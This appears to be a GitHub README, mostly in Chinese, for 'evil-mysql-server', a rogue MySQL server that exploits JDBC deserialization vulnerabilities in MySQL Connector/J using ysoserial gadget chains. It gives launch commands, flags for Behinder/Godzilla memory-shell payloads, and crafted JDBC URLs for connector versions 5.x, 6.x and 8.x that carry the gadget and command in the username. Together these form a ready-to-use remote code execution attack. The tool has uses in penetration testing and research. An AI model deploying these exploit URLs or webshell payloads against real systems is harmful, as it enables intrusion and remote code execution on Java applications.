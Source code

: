 # evil mysql server 

## 适配多个 ysoserial 工具 - 20240407


 - https://github.com/frohoff/ysoserial
 - https://github.com/Y4er/ysoserial
 - https://github.com/qi4L/JYso
 - https://github.com/su18/ysoserial

### 前缀说明
```
ysoserial: yso
su18-ysoserial: ysu
JYso: jyso
Y4er-ysoserial: y4ys
```

### 使用示例

```
ysu_CommonsCollections1_EX-Tomcatecho
y4ys_Fastjson1_CLASS:TomcatCmdEcho
```

## 增加对su18-ysu的适配

```
Usage of ./evil-mysql:
  -addr string
        listen addr (default "0.0.0.0:3306")
  -hv string
        MemoryShell binding url pattern (default "https://www.google.com/")
  -java string
        java bin path (default "java")
  -pw string
        Behinder or Godzilla password (default "p@ssw0rd")
  -url string
        ysuserial bin path (default "/testbin")
  -yso string
        ysoserial bin path (default "ysoserial-0.0.6-SNAPSHOT-all.jar")
  -ysu string
        ysuserial bin path (default "ysuserial-1.5-su18-all.jar")
```

**5.1.11-5.x** ysu

```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=ysu_CommonsCollections1_EX-xxxx
```


## 简介

**evil-mysql-server** 是一个针对 jdbc 反序列化漏洞编写的恶意数据库，依赖 ysoserial 。

使用方式

[ysoserial](https://github.com/frohoff/ysoserial)

```shell
./evil-mysql-server -addr 3306 -java java -ysoserial ysoserial-0.0.6-SNAPSHOT-all.jar
```

启动成功后，使用 jdbc 进行连接，其中用户名称格式为 `yso_payload_command` , 连接成功后 `evil-mysql-server` 会解析用户名称，并使用如以下命令生成恶意数据返回到 jdbc 客户端。
```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 calc.exe
```

[ysuserial](https://github.com/su18/ysoserial) 这是一个基于原始ysoserial的增强项目。

```shell
./evil-mysql-server -addr 3306 -java java -ysuserial ysuserial-0.9-su18-all.jar
```

启动成功后，使用 jdbc 进行连接，其中用户名称格式为 `yso_payload_command` , 连接成功后 `evil-mysql-server` 会解析用户名称，并使用如以下命令生成恶意数据返回到 jdbc 客户端。
```shell
java -jar ysuserial-0.9-su18-all.jar -g CommonsCollections1 -p calc.exe
```

## JDBC url 示例

> 使用 ysuserial 时请修改username的前三个字符为 **ysu** 

**5.1.11-5.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**6.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**8.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

## 致谢

感谢以下项目，带来的启发

- [MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)

